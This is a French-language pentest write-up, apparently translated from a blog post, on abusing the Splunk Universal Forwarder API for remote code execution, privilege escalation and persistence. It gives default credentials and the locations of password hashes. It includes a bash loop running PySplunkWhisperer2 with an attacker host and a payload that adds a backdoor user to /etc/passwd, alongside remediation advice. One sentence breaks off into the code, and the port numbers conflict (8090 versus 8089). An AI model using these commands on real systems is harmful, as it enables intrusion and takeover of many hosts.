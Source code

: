 Si vous effectuez une énumération interne ou externe d'une machine et que vous trouvez que Splunk est en cours d'exécution (port 8090), si vous connaissez par chance des identifiants valides, vous pouvez abuser du service Splunk pour exécuter un shell en tant qu'utilisateur exécutant Splunk. Si root l'exécute, vous pouvez escalader les privilèges à root.

De plus, si vous êtes déjà root et que le service Splunk n'écoute pas uniquement sur localhost, vous pouvez voler le fichier de mot de passe du service Splunk et casser les mots de passe, ou ajouter de nouvelles informations d'identification. Et maintenir la persistance sur l'hôte.

Dans la première image ci-dessous, vous pouvez voir à quoi ressemble une page Web Splunkd.

Les informations suivantes ont été copiées depuis https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/

# Abus de Splunk Forwarders pour les coquilles et la persistance

14 août 2020

## Description: <a href="#description" id="description"></a>

L'agent Splunk Universal Forwarder (UF) permet aux utilisateurs distants authentifiés d'envoyer des commandes ou des scripts uniques aux agents via l'API Splunk. L'agent UF ne valide pas les connexions provenant d'un serveur Splunk Enterprise valide, ni ne valide le code signé ou autrement prouvé provenant du serveur Splunk Enterprise. Cela permet à un attaquant qui obtient l'accès au mot de passe de l'agent UF d'exécuter du code arbitraire sur le serveur en tant que SYSTEM ou root, selon le système d'exploitation.

Cette attaque est utilisée par les testeurs de pénétration et est probablement exploitée activement dans la nature par des attaquants malveillants. L'obtention du mot de passe pourrait conduire à la compromission de centaines de systèmes dans un environnement client.

Les mots de passe Splunk UF sont relativement faciles à acquérir, voir la section Emplacements de mot de passe courants pour plus de détails.

## Contexte: <a href="#context" id="context"></a>

Splunk est un outil d'agrégation et de recherche de données souvent utilisé comme système de surveillance des informations de sécurité et des événements (SIEM). Splunk Enterprise Server est une application Web qui s'exécute sur un serveur, avec des agents, appelés Universal Forwarders, qui sont installés sur chaque système du réseau. Splunk fournit des binaires d'agent pour Windows, Linux, Mac et Unix. De nombreuses organisations utilisent Syslog pour envoyer des données à Splunk au lieu d'installer un agent sur les hôtes Linux/Unix, mais l'installation de l'agent devient de plus en plus populaire.

Universal Forwarder est accessible sur chaque hôte à https://host:8089. L'accès à l'un des appels d'API protégés, tels que /service/, fait apparaître une boîte d'authentification de base. Le nom d'utilisateur est toujours admin, et le mot de passe par défaut était changeme jusqu'en 2016, date à laquelle Splunk a exigé que toutes les nouvelles installations définissent un mot de passe de 8 caractères ou plus. Comme vous le remarquerez dans ma démonstration, la complexité n'est pas une exigence car le mot de passe de mon agent est 12345678. Un attaquant distant peut forcer le mot de passe sans verrouillage, ce qui est une nécessité pour un hôte de journal, car si le compte est verrouillé, les journaux ne seraient plus envoyés au serveur Splunk et un attaquant pourrait l'utiliser pour masquer ses attaques. La capture d'écran suivante montre l'agent Universal Forwarder, cette page initiale est accessible sans authentification et peut être utilisée pour énumérer les hôtes exécutant Splunk Universal Forwarder.

![0](https://eapolsniper.github.io/assets/2020AUG14/11\_SplunkAgent.png)

La documentation Splunk montre l'utilisation du même mot de passe de transfert universel pour tous les agents, je ne me souviens pas avec certitude si c'est une exigence ou si des mots de passe individuels peuvent être définis pour chaque agent, mais sur la base de la documentation et de la mémoire de quand j'étais un administrateur Splunk, je crois que tous les agents doivent utiliser le même mot de passe. Cela signifie que si le mot de passe est trouvé ou craqué sur un système, il est susceptible de fonctionner sur tous les hôtes Splunk UF. Cela a été mon expérience personnelle, permettant la compromission de centaines d'hôtes rapidement.

## Emplacements de mot de passe courants <a href="#common-password-locations" id="common-password-locations"></a>

Je trouve souvent le mot de passe en texte clair de l'agent de transfert universel Splunk aux emplacements suivants sur les réseaux :

1. Répertoire Active Directory Sysvol/domain.com/Scripts. Les administrateurs stockent l'exécutable et le mot de passe ensemble pour une installation efficace de l'agent.
2. Partages de fichiers réseau hébergeant des fichiers d'installation IT
3. Wiki ou autres référentiels de notes de construction sur le réseau interne

Le mot de passe peut également être accédé sous forme de hachage dans Program Files\Splunk\etc\passwd sur les hôtes Windows, et dans /opt/Splunk/etc/passwd sur les hôtes Linux et Unix. Un attaquant peut tenter de craquer le mot de passe en utilisant Hashcat, ou louer un environnement de craquage en nuage pour augmenter la probabilité de craquer le hachage. Le mot de passe est un hachage SHA-256 fort et, en tant que tel, un mot de passe fort et aléatoire est peu susceptible d'être craqué.

## Impact: <a href="#impact" id="impact"></a>

Un attaquant avec un mot de passe d'agent de transfert universel Splunk peut compromettre complètement tous les hôtes Splunk du réseau et obtenir des autorisations de niveau SYSTEM ou root sur chaque hôte. J'ai utilisé avec succès l'agent Splunk sur des hôtes Windows, Linux et Solaris Unix. Cette vulnérabilité pourrait permettre de récupérer les informations d'identification du système, d'exfiltrer des données sensibles ou d'installer des rançongiciels. Cette vulnérabilité est rapide, facile à utiliser et
```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```
Informations sur l'hôte :

Serveur Splunk Enterprise : 192.168.42.114\
Victime de l'agent Splunk Forwarder : 192.168.42.98\
Attaquant : 192.168.42.51

Version de Splunk Enterprise : 8.0.5 (la plus récente au 12 août 2020 - jour de la configuration du laboratoire)\
Version de l'Universal Forwarder : 8.0.5 (la plus récente au 12 août 2020 - jour de la configuration du laboratoire)

### Recommandations de remédiation pour Splunk, Inc : <a href="#remediation-recommendations-for-splunk-inc" id="remediation-recommendations-for-splunk-inc"></a>

Je recommande de mettre en œuvre toutes les solutions suivantes pour fournir une défense en profondeur :

1. Idéalement, l'agent Universal Forwarder ne devrait pas avoir de port ouvert du tout, mais plutôt interroger le serveur Splunk à intervalles réguliers pour obtenir des instructions.
2. Activer l'authentification mutuelle TLS entre les clients et le serveur, en utilisant des clés individuelles pour chaque client. Cela fournirait une sécurité bidirectionnelle très élevée entre tous les services Splunk. L'authentification mutuelle TLS est largement mise en œuvre dans les agents et les appareils IoT, c'est l'avenir de la communication client-serveur de périphériques de confiance.
3. Envoyer tous les fichiers de code, de ligne unique ou de script, dans un fichier compressé qui est chiffré et signé par le serveur Splunk. Cela ne protège pas les données de l'agent envoyées via l'API, mais protège contre l'exécution de code à distance malveillant d'un tiers.

### Recommandations de remédiation pour les clients Splunk : <a href="#remediation-recommendations-for-splunk-customers" id="remediation-recommendations-for-splunk-customers"></a>

1. Assurez-vous qu'un mot de passe très fort est défini pour les agents Splunk. Je recommande au moins un mot de passe aléatoire de 15 caractères, mais comme ces mots de passe ne sont jamais saisis, cela pourrait être défini sur un mot de passe très long, tel que 50 caractères.
2. Configurez des pare-feux basés sur l'hôte pour n'autoriser les connexions au port 8089/TCP (port de l'agent Universal Forwarder) que depuis le serveur Splunk.

## Recommandations pour l'équipe Red : <a href="#recommendations-for-red-team" id="recommendations-for-red-team"></a>

1. Téléchargez une copie de l'Universal Forwarder Splunk pour chaque système d'exploitation, car c'est un excellent implant léger signé. Bon à garder une copie au cas où Splunk corrigerait réellement cela.

## Exploits/Blogs d'autres chercheurs <a href="#exploitsblogs-from-other-researchers" id="exploitsblogs-from-other-researchers"></a>

Exploits publics utilisables :

* https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
* https://www.exploit-db.com/exploits/46238
* https://www.exploit-db.com/exploits/46487

Articles de blog connexes :

* https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/
* https://medium.com/@airman604/splunk-universal-forwarder-hijacking-5899c3e0e6b2
* https://www.hurricanelabs.com/splunk-tutorials/using-splunk-as-an-offensive-security-tool

_** Note : **_ Ce problème est un problème grave avec les systèmes Splunk et il a été exploité par d'autres testeurs depuis des années. Bien que l'exécution de code à distance soit une fonctionnalité prévue de l'Universal Forwarder Splunk, la mise en œuvre de celle-ci est dangereuse. J'ai tenté de soumettre ce bogue via le programme de primes de bogues de Splunk dans la très improbable chance qu'ils ne soient pas conscients des implications de conception, mais j'ai été informé que toutes les soumissions de bogues mettent en œuvre la politique de divulgation Bug Crowd/Splunk qui stipule que aucun détail de la vulnérabilité ne peut être discuté publiquement _jamais_ sans la permission de Splunk. J'ai demandé un délai de divulgation de 90 jours et j'ai été refusé. En tant que tel, je n'ai pas divulgué cela de manière responsable car je suis raisonnablement sûr que Splunk est conscient du problème et a choisi de l'ignorer, je pense que cela pourrait avoir un impact grave sur les entreprises et il est de la responsabilité de la communauté de l'infosec d'éduquer les entreprises.
